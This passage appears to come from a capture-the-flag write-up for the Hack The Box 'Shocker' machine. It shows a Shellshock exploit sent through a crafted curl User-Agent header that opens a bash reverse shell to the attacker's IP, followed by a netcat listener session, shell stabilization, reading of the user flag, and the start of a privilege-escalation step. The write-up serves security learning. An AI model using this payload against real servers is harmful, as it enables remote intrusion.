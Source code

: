 Since we manage to successfully exfiltrate the `/etc/passwd` payload, we can now create a reverse shell payload to connect to our attacker machine. 

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.250/3000 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

## Obtaining user flag
After obtaining the reverse shell, we will have to first stabilize the shell. 

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000       
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.56] 56940
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<-bin$ python3 -c 'import pty; pty.spawn("/bin/bash)'                        
shelly@Shocker:/usr/lib/cgi-bin$ export TERM=xterm
export TERM=xterm
shelly@Shocker:/usr/lib/cgi-bin$ stty cols 132 rows 34
stty cols 132 rows 34
shelly@Shocker:/usr/lib/cgi-bin$ 
```

Finally, we will obtain the user flag

```
shelly@Shocker:/$ ls
ls
bin   dev  home        initrd.img.old  lib64       media  opt   root  sbin  srv  tmp  var      vmlinuz.old
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   snap  sys  usr  vmlinuz
shelly@Shocker:/$ cd home
cd home
shelly@Shocker:/home$ ls
ls
shelly
shelly@Shocker:/home$ cd shelly
cd shelly
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
<Redacted user flag>
```

## Obtaining the system flag
Unfortunately, we are not done yet! We still do not know the system flag. So, let's find out the programs that run with root privileges. From the output, we realize that `/usr/bin/perl` can be executed with root privileges and without any authentication!
